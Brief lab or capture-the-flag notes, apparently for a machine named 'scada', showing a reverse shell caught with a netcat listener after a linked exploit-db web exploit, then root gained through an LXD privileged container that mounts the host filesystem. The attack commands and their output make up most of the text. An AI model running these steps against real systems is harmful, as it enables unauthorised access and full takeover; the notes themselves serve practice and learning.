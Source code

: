 
![[Pasted image 20240516140729.png]]

![[Pasted image 20240516140807.png]]

https://www.exploit-db.com/exploits/49735

The webserver is vulnerable to this exploit

```rust
❯ rlwrap nc -lvnp 4444                                      
listening on [any] 4444 ...                                 
connect to [10.10.14.21] from (UNKNOWN) [10.10.110.1] 34776 
                                                            
whoami                                                      
aepike                                                      
```

https://juggernaut-sec.com/lxd-container/

```rust
aepike@scada:/tmp$ wget http://10.10.14.21/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

Transfer the binary to the file

```rust
aepike@scada:/tmp$ lxc init alpine aepike -c security.privileged=true -s mypool
```

```rust
aepike@scada:/tmp$ lxc config device add aepike gimmeroot disk source=/ path=/mnt/root recursive=true
```

```rust
aepike@scada:/tmp$ lxc start aepike
```

```rust
aepike@scada:/tmp$ lxc exec aepike sh
lxc exec aepike sh
whoami
root
```